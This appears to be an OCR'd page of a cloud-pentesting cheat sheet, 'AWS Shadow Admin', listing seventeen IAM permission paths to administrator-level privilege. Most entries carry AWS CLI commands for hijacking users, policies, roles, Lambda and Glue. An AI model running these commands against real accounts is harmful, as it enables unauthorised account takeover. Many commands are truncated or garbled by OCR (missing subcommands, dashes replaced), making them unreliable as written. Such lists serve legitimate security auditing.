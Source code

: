 # AWS Shadow Admin

# TLDR: Fix later

## Admin equivalent permission

### 1) AdministratorAccess

 - "Action": "*"

 - "Resource": "*"

### 2) ec2:AssociateIamInstanceProfile : attach an IAM instance profile to an EC2 instance

    aws ec2 associate-iam-instance-profile --iam-instance-profile Name=admin-role

### 3) iam:CreateAccessKey : create a new access key to another IAM admin account

    aws iam create-access-key –user-name TARGET_USER

### 4) iam:CreateLoginProfile : add a new password-based login profile, set a new password for an entity and impersonate it

    aws iam create-login-profile –user-name TARGET_USER –password 'PASSWORD'

### 5) iam:UpdateLoginProfile : reset other IAM users’ login passwords.

    aws iam update-login-profile –user-name TARGET_USER –password 'PASSWORD'

### 6) iam:AttachUserPolicy, iam:AttachGroupPolicy or iam:AttachRolePolicy : attach existing admin policy to any other entity he currently possesses

    aws iam attach-user-policy –user-name MY_USERNAME –policy-arn arn:aws:iam::aws:

## OR

    aws iam attach-user-policy –user-name MY_USERNAME –policy-arn arn:aws:iam::aws:

## OR

    aws iam attach-role-policy –role-name ROLE_I_CAN_ASSUME –policy-arn arn:aws:iam::

### 7) iam:PutUserPolicy, iam:PutGroupPolicy or iam:PutRolePolicy : added inline policy will allow the attacker to grant additional privileges to previously compromised entities.

    aws iam put-user-policy –user-name MY_USERNAME –policy-name MY_INLINE_POLICY

### 8) iam:CreatePolicy : add a stealthy admin policy

### 9) iam:AddUserToGroup : add into the admin group of the organization.

    aws iam add-user-to-group –group-name TARGET_GROUP –user-name MY_USERNAME

### 10) iam:UpdateAssumeRolePolicy + sts:AssumeRole : change the assuming permissions of a privileged role and then assume it with a non-privileged account.

    aws iam update-assume-role-policy –role-name ROLE_I_CAN_ASSUME –policy-document file://

### 11) iam:CreatePolicyVersion & iam:SetDefaultPolicyVersion : change customer-managed policies and change a non-privileged entity to be a privileged one.

    aws iam create-policy-version –policy-arn target_policy_arn –policy-document file://

    aws iam set-default-policy-version –policy-arn target_policy_arn –version-id v2

### 12) lambda:UpdateFunctionCode : give an attacker access to the privileges associated with the Lambda service role that is attached to that function.

    aws lambda update-function-code –function-name target_function –zip-file fileb://

### 13) glue:UpdateDevEndpoint : give an attacker access to the privileges associated with the role attached to the specific Glue development endpoint.

    aws glue –endpoint-name target_endpoint –public-key file://path/to/my/public/ssh/id_rsa.pub

### 14) iam:PassRole + ec2:CreateInstanceProfile/ec2:AddRoleToInstanceProfile : an attacker could create a new privileged instance profile and attach it to a compromised EC2 instance that he possesses.

### 15) iam:PassRole + ec2:RunInstance : give an attacker access to the set of permissions that the instance profile/role has, which again could range from no privilege escalation to full administrator access of the AWS account

    aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-

    aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-

### 16) iam:PassRole + lambda:CreateFunction + lambda:InvokeFunction : give a user access to the privileges associated with any Lambda service role that exists in the account.

    aws lambda create-function –function-name my_function –runtime python3.6 –role

    aws lambda invoke –function-name my_function output.txt

### 17) iam:PassRole + glue:CreateDevEndpoint : access to the privileges associated with any Glue service role that exists in the account.

    aws glue create-dev-endpoint –endpoint-name my_dev_endpoint –role-arn arn_of_glue_
